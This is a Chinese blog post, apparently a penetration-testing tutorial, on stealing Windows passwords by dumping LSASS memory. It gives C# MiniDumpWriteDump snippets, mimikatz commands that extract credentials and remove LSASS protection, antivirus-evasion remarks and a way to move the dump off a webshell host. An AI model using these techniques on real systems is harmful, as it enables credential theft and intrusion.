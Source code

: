 ```yaml
---
layout: post
title: MiniDumpWriteDump
---
```




## 0x01 

常见内网渗透会经常遇到抓取windows密码的场景，本文用来学习使用内存转储的方式来获取windows密码。

## 0x02

我们可以将转储LSASS的进程内存。Windows允许我们创建转储文件，它是给定进程的快照。此转储包括加载的库和应用程序内存。

在任务管理器中直接转储就可以，他将会生成一个dmp的文件，然后拿回本地用Minikatz解密即可。



![img](https://gitee.com/a4m1n/tuchuang/raw/master/pic/clipboard.png)

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

这样做的缺点是需要图形化界面，需要登录到管理员桌面，然后操作，渗透中常用的方法有sqldump,procdump,不过Procdump在遇到某些AV时候会被拦截，不过选择要procdump的pid来转储时也可以达到Bypass的效果

## 0x03

其实不难发现，Procdump和任务管理器的这两种方法都是使用了MiniDumpWriteDump的API

```
BOOL MiniDumpWriteDump(
  HANDLE                            hProcess,      //获取 LSASS的句柄
  DWORD                             ProcessId,     //获取 LSASS的进程ID号
  HANDLE                            hFile,		   //要写入信息的文件句柄
  MINIDUMP_TYPE                     DumpType,      //要生成的信息类型
  PMINIDUMP_EXCEPTION_INFORMATION   ExceptionParam,  //指向MINIDUMP_EXCEPTION_INFORMATION 结构的指针
  PMINIDUMP_USER_STREAM_INFORMATION UserStreamParam,  //指向MINIDUMP_USER_STREAM_INFORMATION 结构的指针 
  PMINIDUMP_CALLBACK_INFORMATION    CallbackParam   //指向MINIDUMP_CALLBACK_INFORMATION 结构的指针
);
```

其实并不需要全部的参数，使用前面4个即可，然后看下需要的Import

![image-20210811173030733](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811173030733.png)

```
static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, int DumpType, ref MINIDUMP_EXCEPTION_INFORMATION ExceptionParam,IntPtr UserStreamParam, IntPtr CallbackParam);
```

要获取进程 ID，我们可以使用 Process 类GetProcessesByName 方法

```
Process[] lsass = Process.GetProcessesByName("lsass");
int lsass_pid = lsass[0].Id;
```

使用Process方法的时候需要引入Diagnostics

![image-20210811174541665](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174541665.png)

使用Win32 OpenProcess来获取Lsass

![image-20210811174944360](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811174944360.png)

```
static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);
```

然后我们提供完整的访问参数

![image-20210811190434296](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811190434296.png)

最后设置需要输出的这个文件,这里选择使用Win32 CreateFile这个API

实例化FileStream对象，必须提供两个参数:文件名(lsass.dmp)、文件的完整路径和文件模式,这里要加入System.IO命名空间

![image-20210811191125006](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191125006.png)

最后调用MiniDumpWriteFile,当向MiniDumpWriteFile加文件句柄时候,要加一个SafeHandle类

```
bool dumped = MiniDumpWriteDump(handle, lsass_pid, dumpFile.SafeFileHandle.DangerousGetHandle(), 2, IntPtr.Zero, IntPtr.Zero, IntPtr.Zero);
```

至此结束,完整代码如下

![image-20210811191647971](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811191647971.png)

通常生成的lsass.dmp的文件一般比较大,只有webshell的时候下载不便,但是可以通过copy的方法,把favicon.ico复制到可以访问到的web目录,然后用wget将其下载本地解密,也可以直接把输出的文件地址改到web服务器的物理路径



解密方法

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit > password.txt
```

## 0x04

2012年之后,windows开发了一种缓解的技术,LSASS收到PPL保护,注册表可以看到HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa的值为1,不过该保护机制默认是关闭的

![image-20210811192818106](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811192818106.png)

这种情况下直接抓取密码是会失败的,同样也无法转储,返回错误值0x00000005 (Access拒绝），通常我们privilege::debug

是通过privilege::debug命令通过调用AdjustTokenPrivileges来启用SeDebugPrivilege,这也意味着我们要是系统管理员权限或者本地管理员权限，遇到这种情况可以使用mimikatz加载mimidrv

```
!+

!processprotect /process:lsass.exe /remove
```

![image-20210811193539749](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811193539749.png)

解除保护后就可以正常dump密码了



## 0x05

利用上述方法，可以Bypass国内的大部分AV, 面对卡巴斯基还是略差一点，不过卡巴目前还是可以通过reg的方法获取密码

![image-20210811194142907](https://gitee.com/a4m1n/tuchuang/raw/master/pic/image-20210811194142907.png)

防御的minidump 可以考虑监控NtReadVirtualMemory，修改指向的内存地址。